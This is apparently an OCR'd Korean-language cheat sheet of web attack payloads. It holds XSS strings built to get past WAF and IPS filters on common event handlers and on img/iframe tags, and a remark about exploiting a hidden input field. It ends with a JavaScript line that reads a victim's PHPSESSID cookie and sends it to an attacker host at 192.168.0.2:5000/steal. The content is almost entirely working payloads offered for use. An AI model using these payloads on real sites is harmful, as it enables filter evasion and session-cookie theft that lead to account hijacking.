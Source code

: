 # xss 페이로드
"><svg/onwheel=alert'1'> // =onload 등 흔한 이벤트가 WAF, IPS에 필터링 되어 있을 때 우회

aa"><onpointover="alert(1)"><input%20types="hidden"%20value=" // 태그 탈출 후 img ,iframe등이 필터링되어 있을 때 우회

<div class="~~~ -hidden"> 태그에서 hidden 삭제 후 활성화된 창에서 스크립트 필터링 누락으로 xss 공격 가능
(실제 우회 당시 게시판 내 링크 삽입 시 입력되는 창이 활성화되었음)

# CORS 정책 우회
;const img=new Image();img.src='http://192.168.0.2:5000/steal?PHPSESSID='+document.cookie.match(/PHPSESSID=([^;]+)/)[1];//'

